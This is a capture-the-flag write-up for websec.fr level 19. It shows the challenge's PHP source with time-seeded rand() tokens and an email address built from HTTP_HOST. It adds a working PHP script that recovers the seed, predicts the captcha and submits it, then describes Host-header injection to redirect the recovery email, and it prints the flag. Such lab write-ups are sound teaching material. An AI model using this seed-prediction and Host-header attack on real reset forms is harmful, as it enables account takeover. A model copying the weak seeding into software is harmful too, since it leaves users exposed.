




In this level we can view the source code (only the "relevant" code):
```php
// https://secure.php.net/manual/en/function.srand.php#90215
srand (microtime (true));

function generate_random_text ($length) {
    $chars  = "abcdefghijklmnopqrstuvwxyz";
    $chars .= "ABCDEFGHIJKLMNOPQRSTUVWXYZ";
    $chars .= "1234567890";

    $text = '';
    for($i = 0; $i < $length; $i++) {
        $text .= $chars[rand () % strlen ($chars)];
    }
    return $text;
}

function init_token() {
    if ((! isset ($_SESSION['token'])) or empty ($_SESSION['token'])) {
        $_SESSION['token'] = generate_random_text (32);
    }
}

function check_and_refresh_token() {
    if (! isset ($_POST['token'])) {
        die ('Please sumbit the anti-csrf token.');
    } elseif ( hash_equals ($_SESSION['token'], $_POST['token'])) {
        $_SESSION['token'] = generate_random_text (32);
    } else {
        $_SESSION['token'] = generate_random_text (32);
        die ('Invalid session token.');
    }
}

init_token ();

if (isset ($_POST['captcha']) and isset ($_SESSION['captcha'])) {
    if ($_SESSION['captcha'] === $_POST['captcha']) {
        check_and_refresh_token();
        $email_addr = 'level19' . '@' . $_SERVER['HTTP_HOST'];  // less hassle if we move to another domain
        send_flag_by_email ($email_addr);
        $message = "<p class='alert alert-success'>Password recovery email sent.</p>";
    } else {
        $message = "<p class='alert alert-danger'>Invalid captcha</p>";
    }
} else {
    $_SESSION['captcha'] = generate_random_text (255 / 10.0);
}
?>
```

In general way, it set a `token`, and then set a `captcha` and give you the captcha image.
If you succeed in the captcha test, it'll send the flag to the mail:
```php
$email_addr = 'level19' . '@' . $_SERVER['HTTP_HOST'];  // less hassle if we move to another domain
send_flag_by_email ($email_addr);
```

So, first we can see the SEED is based on time `srand (microtime (true));`, which point on vulnerability, notice that it cast it to `int`, so it simply like taking `now()`.

Then, it generates the `token` from the first 32 `rand()`, and the captcha from the next 25 `rand()`, so we can try bruteforcing, find the SEED, and then calculating the `captcha`.

so, I wrote this code to achieve the SEED:
```php
<?php

function generate_random_text($length) {
    $chars  = "abcdefghijklmnopqrstuvwxyz";
    $chars .= "ABCDEFGHIJKLMNOPQRSTUVWXYZ";
    $chars .= "1234567890";

    $text = '';
    for ($i = 0; $i < $length; $i++) {
        $text .= $chars[rand() % strlen($chars)];
    }
    return $text;
}

// --- Step 1: GET request to fetch token and PHPSESSID ---
$opts = [
    "http" => [
        "method" => "GET",
        "header" => "User-Agent: PHP\r\n"
    ]
];
$context = stream_context_create($opts);
$response = file_get_contents("https://websec.fr/level19/index.php", false, $context);

// Extract PHPSESSID from response headers
$php_sessid = null;
foreach ($http_response_header as $hdr) {
    if (preg_match('/^Set-Cookie:\s*PHPSESSID=([^;]+)/', $hdr, $matches)) {
        $php_sessid = $matches[1];
        break;
    }
}

if (!$php_sessid) {
    die("[-] Could not retrieve PHPSESSID\n");
}

// Extract token
if (!preg_match('/name="token" value="([^"]+)"/', $response, $matches)) {
    die("[-] Could not find token\n");
}
$captured_token = $matches[1];

echo "[+] Captured token: $captured_token\n";
echo "[+] Captured PHPSESSID: $php_sessid\n";

// --- Step 2: Find seed ---
$now = microtime(true);
$found = false;

for ($seed = $now - 30; $seed <= $now + 30; $seed++) {
    srand($seed);
    $token = generate_random_text(32);
    if ($token === $captured_token) {
        echo "[+] Found seed: $seed (" . date("r", $seed) . ")\n";
        $found = true;
        break;
    }
}

if (!$found) {
    die("[-] Seed not found in the window.\n");
}
?>
```

However, for some reason it didn't work, although in theory it should've work.

Then, I saw this comment in the source code:
```php
// https://secure.php.net/manual/en/function.srand.php#90215
```

In this website it says that in newer php versions, it basically ignores our `srand`, and set a real random SEED, that's why it's not working!

I doubled check it using sending multiple requests to the server, and checking whether i'm getting the same token in the same second, which points on the fact that the `srand` is really working.



Okay, so let's try this on older php versions, using docker container:

```bash 
docker pull php:5.6-cli # pulling the PHP 5.6 image
docker run -it --rm -v $(pwd):/workspace php:5.6-cli php /workspace/level19.php # executing the script inside the container
```

and it's working! we got the seed!



Now, we'll generate the captcha and send it. 
```php
<?php

function generate_random_text($length) {
    $chars  = "abcdefghijklmnopqrstuvwxyz";
    $chars .= "ABCDEFGHIJKLMNOPQRSTUVWXYZ";
    $chars .= "1234567890";

    $text = '';
    for ($i = 0; $i < $length; $i++) {
        $text .= $chars[rand() % strlen($chars)];
    }
    return $text;
}

// --- Step 1: GET request to fetch token and PHPSESSID ---
$opts = [
    "http" => [
        "method" => "GET",
        "header" => "User-Agent: PHP\r\n"
    ]
];
$context = stream_context_create($opts);
$response = file_get_contents("https://websec.fr/level19/index.php", false, $context);

// Extract PHPSESSID from response headers
$php_sessid = null;
foreach ($http_response_header as $hdr) {
    if (preg_match('/^Set-Cookie:\s*PHPSESSID=([^;]+)/', $hdr, $matches)) {
        $php_sessid = $matches[1];
        break;
    }
}

if (!$php_sessid) {
    die("[-] Could not retrieve PHPSESSID\n");
}

// Extract token
if (!preg_match('/name="token" value="([^"]+)"/', $response, $matches)) {
    die("[-] Could not find token\n");
}
$captured_token = $matches[1];

echo "[+] Captured token: $captured_token\n";
echo "[+] Captured PHPSESSID: $php_sessid\n";

// --- Step 2: Find seed ---
$now = microtime(true);
$found = false;

for ($seed = $now - 30; $seed <= $now + 30; $seed++) {
    srand($seed);
    $token = generate_random_text(32);
    if ($token === $captured_token) {
        echo "[+] Found seed: $seed (" . date("r", $seed) . ")\n";
        $found = true;
        break;
    }
}

if (!$found) {
    die("[-] Seed not found in the window.\n");
}

// --- Step 3: Generate CAPTCHA ---
$captcha = generate_random_text(ceil(255 / 10.0));
echo "[+] Generated CAPTCHA: $captcha\n";

// --- Step 4: POST request with PHPSESSID ---
$post_data = http_build_query([
    "captcha" => $captcha,
    "submit" => "Submit",
    "token" => $captured_token
]);

$opts = [
    "http" => [
        "method"  => "POST",
        "header"  => "Content-type: application/x-www-form-urlencoded\r\nCookie: PHPSESSID=$php_sessid\r\n",
        "content" => $post_data
    ]
];

$context = stream_context_create($opts);
$response = file_get_contents("https://websec.fr/level19/index.php", false, $context);

echo "[+] Server response:\n$response\n";
```


When doing that, we get the message that the email got sent, however, we didn't retrieve the flag:




Let's look again in the email sending funcinnallty:
```php
$email_addr = 'level19' . '@' . $_SERVER['HTTP_HOST'];  // less hassle if we move to another domain
send_flag_by_email ($email_addr);
```

The domain it sends the email to comes from `$_SERVER['HTTP_HOST']`, however, we can set this parameter using the `HOST` header!

Let's trying and giving it some different domain, and this will be our final code:

```php

```

we get this message:
```
[+] Server response:
This challenge is supposed to send you an email,
but since we do not want to setup our own fancy email server,
we tried to use an external email provider, but it seems
that it currently doesn't work at all.
Feel free to notify an admin on irc.

Here is your flag by the way: WEBSEC{I_will_build_a_great_password_reset_form_and_have_albinowax_pay_for_it}.
```



**Flag:** ***`WEBSEC{I_will_build_a_great_password_reset_form_and_have_albinowax_pay_for_it}`*** 
